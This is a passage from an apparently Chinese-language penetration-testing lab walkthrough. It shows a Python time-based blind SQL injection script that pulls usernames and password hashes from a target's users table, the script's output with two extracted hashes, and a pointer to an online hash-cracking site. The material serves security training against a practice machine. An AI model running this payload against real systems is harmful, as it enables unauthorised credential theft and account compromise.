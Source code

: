 ```python
            
    #这个for循环是确定每一位的ascii值的
    for i in range(1,length+1):
        for char in all:
            payload = '\'%2b(SELECT+if(ascii(substr((select+group_concat(username,\':\',password)+from+users+limit+0,1),'+ str(i)+',1))='+str(ord
(char))+',sleep(3),1))%2b\''
            #print(payload)
            r = requests.get(url+payload)
            #print(r.request.url)
            if r.elapsed.total_seconds() > 3:
                output.append(char)
                if char == ",":
                    print("")
                    continue
                print(char, end='', flush=True)


try:
    extract_users()
except KeyboardInterrupt:
    print("")
    print("[+] Exiting...")
    sys.exit()
```

啧，其实到这里可以尝试使用`sqlmap`了，但是在一些考试中，不允许使用的，所以还是使用脚本。不过`sqlmap`一定要会使用

这个脚本需要修改其中的`url`，也就是`ip`地址改为靶机的即可

```shell
#执行脚本
python3 49742.py

#获取到的值
[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

借助在线网站`cmd5.com`破解值

![](./pic/24.jpg)
